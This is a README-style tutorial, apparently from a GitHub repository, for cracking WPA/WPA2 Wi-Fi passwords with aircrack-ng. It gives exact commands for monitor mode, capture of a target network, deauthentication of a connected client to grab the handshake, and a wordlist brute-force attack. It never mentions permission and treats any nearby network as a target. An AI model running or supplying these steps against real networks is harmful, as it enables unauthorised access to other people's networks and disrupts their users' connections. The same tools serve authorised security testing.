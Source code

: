 # WPA/WPA2 Wifi Password Hack W/ Aircrack-ng

Sources : 
- https://www.youtube.com/watch?v=zAWcu3NQLME&list=PL7WXNOcf6zc0V5rydTqW6Qymm6lnrt33T&index=2

Instructions :

ONLINE PART

1. display network interfaces availables on the machine (common names : wlan0 / wlo1 ...) :
```
iwconfig
```
2. display more details about the interface :
```
ifconfig [interface's name]
```
3. display availables wireless interfaces :
```
airmon-ng
```

`We now want to change the "Managed Mode" into "Monitor Mode" for the purpose of packets capture :`

4. change our wireless card mode :
```
airmon-ng start [interface's name]
```
5. check if the mode change worked, the interface name should now end with "mon" :
```
iwconfig
```
6. grabbing packets on this interface (channel hopping) :
```
airodump-ng [new interface's name]
```

`We have now multiple lines showing availables Wi-Fi in the area, with many informations, we can stop the command when the target appears`

`Keep the terminal open with the informations, we need the BSSID and the channel "CH"`

7. Use Airodump to monitor only the target Wi-Fi network :
```
airodump-ng -c [channel's number] -d [target's BSSID] -w capture [interface's name]
```

`We now need to choose one of the clients of the targeted Wi-Fi (know as stations in the terminal) and knock its connection down so that when he try to reconnect, we intercept the WPA handshake to perfom an offline dictionnary attack`

`(do not stop the previous command since it's displaying a msg when the following commands gets what we want -> capture WPA handshake)`


8. knock one of the clients connection down :
```
aireplay-ng --deauth 0 -a [routers' BSSID] -c [client's BSSID] [monitor interface]
```

`Wait until the WPA handshake or the PMKID appears on the airodump command then stop the two`

`You have now the capture files`

9. make sure you switch your interface back in managed mode : :
```
airmon-ng stop [interface's name]
```

OFFLINE PART

10. Brute force attack on the capture file :
```
aircrack-ng [captureFile.cap] -w [wordlist]
```

Some wordlists availables :
- https://hackntricks.fr/4-wordlists-pour-brute-force-un-mot-de-passe/